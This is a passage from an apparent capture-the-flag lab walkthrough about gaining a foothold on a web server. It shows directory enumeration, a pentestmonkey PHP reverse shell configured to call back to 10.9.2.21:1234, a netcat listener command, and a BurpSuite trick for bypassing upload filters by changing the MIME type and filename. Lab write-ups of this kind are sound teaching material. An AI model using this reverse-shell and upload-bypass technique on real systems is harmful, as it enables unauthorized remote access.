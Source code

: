 ```bash
/assets (Status: 301)

# -b flag to remove all results with 200 http code.
```

So we know that all files uploaded to **/uploads/** directory.

Now, we try to upload a reverse shell to gain access. I use a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Dont forget to change the `$ip` and `$port` variables.
```php
<?php
...
$ip = '10.9.2.21';  // Your tun0 ip -> run ip addr
$port = 1234;       // port to listen
...
?>
```

Run a netcat that listen to port that we declared on the reverse shell, in this case i used port 1234.
```bash
kali@kali:~$ nc -lnvp 1234
```

Upload our reverse shell to the website and intercept it with BurpSuite to change the `mime type` and `filename` to bypass the protection.
<figure>
<center><a href="11.png"><img src="11.png" /></a></center>
<figcaption>Bypass upload protection.</figcaption>
</figure>

After we uploaded the file, we can visit the file in the `/uploads/` directory and open the file we uploaded earlier.
<figure>